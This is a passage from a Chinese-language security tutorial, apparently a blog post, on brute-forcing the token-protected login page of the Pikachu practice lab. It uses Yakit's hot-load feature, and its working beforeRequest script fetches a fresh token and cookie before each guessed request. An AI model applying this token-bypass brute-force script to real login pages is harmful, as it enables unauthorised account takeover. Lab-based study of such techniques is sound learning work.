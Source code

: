 ![image-20240109142700905](http://pic.mewhz.com/blog/image-20240109142700905.png)

可以使用 yakit 中的热加载和 Fuzzer 序列两种方法进行爆破

##### 热加载

热加载是一种允许在不停止或重启应用程序的情况下，动态加载或更新特定组件或模块的功能。这种技术常用于开发过程中，提高开发效率和用户体验；如本例子中使用热加载的方法：beforeRequest，可以在发送请求前，再次发送一个 Get 来获取 token 值，再使用这个值进行爆破

首先拦截登录的 Post 请求，发送到 Fuzz 模块，选择上方的热加载

![image-20240109152457902](http://pic.mewhz.com/blog/image-20240109152457902.png)

```
beforeRequest = func(req) {
// 发送GET请求，获取响应
rsp, _, err = poc.HTTP(`GET /pikachu/vul/burteforce/bf_token.php HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
Cache-Control: max-age=0
Referer: http://127.0.0.1/pikachu/vul/csrf/csrfget/csrf_get_login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
X-Forwarded-For: 127.0.0.1
x-forwarded-for: 127.0.0.1
`)

if err != nil {
    return req
}
// 获取GET响应的Set-Cookie
cookie = poc.GetHTTPPacketHeader(rsp, "Set-Cookie")
node, err = xpath.LoadHTMLDocument(rsp)
if err != nil {
    return req
}
// 通过xpath语法获取token的值
tokenNode = xpath.FindOne(node, "//input[@name='token']")
if tokenNode == nil {
    return req
}
token = xpath.SelectAttr(tokenNode, "value")
// 替换token
req = req.ReplaceAll("__TOKEN__", token)
// 替换cookie
req = poc.AppendHTTPPacketHeader(req, "Cookie", cookie)
return req
}
```
